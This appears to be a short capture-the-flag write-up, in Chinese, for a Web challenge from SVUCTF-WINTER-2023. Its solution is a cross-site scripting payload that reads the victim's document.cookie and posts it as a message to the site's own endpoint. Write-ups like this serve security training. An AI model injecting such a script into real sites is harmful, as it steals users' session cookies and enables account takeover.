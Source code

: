 # 题解分享频道

- 作者：13m0n4de
- 参考：SVUCTF-WINTER-2023
- 难度：Baby/Trivial/Easy/Normal/Medium/Hard/Expert/Insane
- 分类：Web
- 镜像：[svuctf-winter-2023/writeup_channel](ghcr.io/svuctf/svuctf-winter-2023/writeup_channel:latest)
- 端口：5000

## 题目描述

> **请勿分享自己的链接，或点击其他人分享的链接，以免造成安全问题**

## 题目解析

```html
<script>
    var form_data = new FormData();
    form_data.append("message", document.cookie);
    fetch("/", {
    	"method": "POST",
    	"body": form_data,
    });
</script>
```

